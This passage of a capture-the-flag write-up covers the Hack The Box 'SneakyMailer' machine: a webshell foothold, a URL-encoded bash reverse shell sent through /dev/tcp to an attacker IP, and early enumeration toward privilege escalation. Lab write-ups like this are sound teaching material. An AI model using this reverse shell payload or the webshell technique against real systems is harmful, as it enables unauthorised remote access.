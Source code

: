 During the exploitation, we also realize that the server removes the uploaded webshell periodically so, we will have to continually upload the webshell. Next, we can then supply the cmd parameter with a reverse shell payload by visiting http://dev.sneakycorp.htb/shell.php?cmd=%2Fbin%2Fbash%20-c%20%27%2Fbin%2Fbash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.16.4%2F4000%200%3E%261%27

![Reverse shell](https://github.com/joelczk/writeups/blob/main/HTB/Images/SneakyMailer/reverse_shell.png)

### Privilege Escalation to low
Looking at the /home directory, we can find that there are 2 users in this machine, low and vmail. 

```
www-data@sneakymailer:/home$ ls -la
ls -la
total 16
drwxr-xr-x  4 root  root  4096 May 14  2020 .
drwxr-xr-x 18 root  root  4096 May 14  2020 ..
drwxr-xr-x  8 low   low   4096 Jun  8  2020 low
drwx------  5 vmail vmail 4096 May 19  2020 vmail
```

We also realize that we can enter the directory belonging to low where we can find the user.txt file. However, we are unable to read the user.txt file. Hence, we would need to escalate our privileges to the low user.

```
www-data@sneakymailer:/home$ cd low
cd low
www-data@sneakymailer:/home/low$ ls -l
ls -l
total 8
-rwxr-x--- 1 root low   33 Apr 21 00:15 user.txt
drwxr-xr-x 6 low  low 4096 May 16  2020 venv
www-data@sneakymailer:/home/low$ cat user.txt 
cat user.txt
cat: user.txt: Permission denied
www-data@sneakymailer:/home/low$ 
```

Using linpeas, we realize that there is a process executing pypi-server that is running in the background owned by the user pypi

```
pypi       709  0.0  0.6  36808 26076 ?        Ss   00:14   0:20 /var/www/pypi.sneakycorp.htb/venv/bin/python3 /var/www/pypi.sneakycorp.htb/venv/bin/pypi-server -i 127.0.0.1 -p 5000 -a update,download,list -P /var/www/pypi.sneakycorp.htb/.htpasswd --disable-fallback -o /var/www/pypi.sneakycorp.htb/packages
```
